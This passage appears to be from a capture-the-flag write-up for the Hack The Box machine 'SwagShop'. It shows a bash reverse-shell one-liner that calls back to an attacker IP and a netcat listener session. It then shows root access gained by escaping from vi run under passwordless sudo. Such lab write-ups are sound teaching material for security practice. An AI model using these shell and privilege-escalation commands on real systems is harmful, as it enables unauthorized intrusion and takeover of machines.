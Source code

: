 As seen, the last line shows the `id` command run as the `www-data` user. Success! Code execution! The next step is to get an actual shell. Changed to a command in the script to a bash reverse shell.

```python
command = "bash -c 'bash -i >& /dev/tcp/10.10.14.15/9001 0>&1'"
```

Re-ran the script after starting a netcat listener. Kind of cool that after all this work we get the user flag as the `www-data` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.140] 51224
bash: cannot set terminal process group (1271): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/var/www/html$ wc -c /home/haris/user.txt
wc -c /home/haris/user.txt
33 /home/haris/user.txt
```

## Privesc: `www-data` to `root`

After a couple of hours of trying to get a foothold and refactoring Python scripts, I didn't feel like a long battle for `root` access. Luckily, it was a pretty easy privesc. Check `sudo` configuration shows we can run `vi` without a password.

```none
www-data@swagshop:/var/www$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Thanks to a quick GTFOBins check, we can easily invoke `vi` and escape to a bash shell. Since we can call this command with `sudo` and without a password, we can get a shell as `root`.

```none
sudo /usr/bin/vi /var/www/html/LICENSE.txt -c ':!/bin/sh'
```

And the result is we are pushed into a root shell. One cool thing was the nifty ASCII art in the root flag file that has a link to the new HTB swag store!

```none
"/var/www/html/LICENSE.txt" [noeol][dos] 48L, 10410C
# /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
270 /root/root.txt
# cat /root/root.txt
c2b087d*************************

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```